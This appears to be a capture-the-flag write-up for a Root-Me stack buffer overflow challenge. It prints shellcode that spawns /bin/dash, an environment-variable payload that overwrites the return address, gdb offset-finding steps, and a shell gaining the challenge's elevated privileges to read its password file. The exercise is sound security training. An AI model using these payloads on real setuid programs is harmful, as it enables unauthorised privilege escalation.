 # ELF x86 - Stack buffer overflow basic 4

https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-4


Can make use of generic spawn /bin/dash shellcode and insert into start of env struct, the home array.  Overflow the path array into RET address.

    export HOME=$(python -c 'print "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41"')

    export PATH=$(/usr/bin/python -c 'print "\x41" * 160 + "\x3c\xf5\xff\xbf" + "\x70\xf7\xff\xbf"')


This exercise is fiddly due to environmental variables shifting stack offsets.  Place junk addresses into PATH to begin with and use gdb to find correct offsets.  Remember to remove the gdb additions to env.

    (gdb) unset env LINES
    (gdb) unset env COLUMNS


Address of home:

    (gdb) p/x $ebp-0x21c
    $1 = 0xbffff53c


Address of RET to main and env struct argument, string terminator will clear least significant byte of the argument causing havok.  Must pass two addresses to PATH, new shellcode address and original env arg address.

    (gdb) p/x ($1+0x180+0xa0)
    $2 = 0xbffff75c

    (gdb) x/2wx $2
    0xbffff75c:     0x08048679      0xbffff770


Satisfying:

    app-systeme-ch8@challenge02:/challenge/app-systeme/ch8$ ./ch8
    [+] Getting env...
    $ id
    uid=1108(app-systeme-ch8) gid=1108(app-systeme-ch8) euid=1208(app-systeme-ch8-cracked) groups=1208(app-systeme-ch8-cracked),100(users),1108(app-systeme-ch8)
    $ cat .passwd
    ...
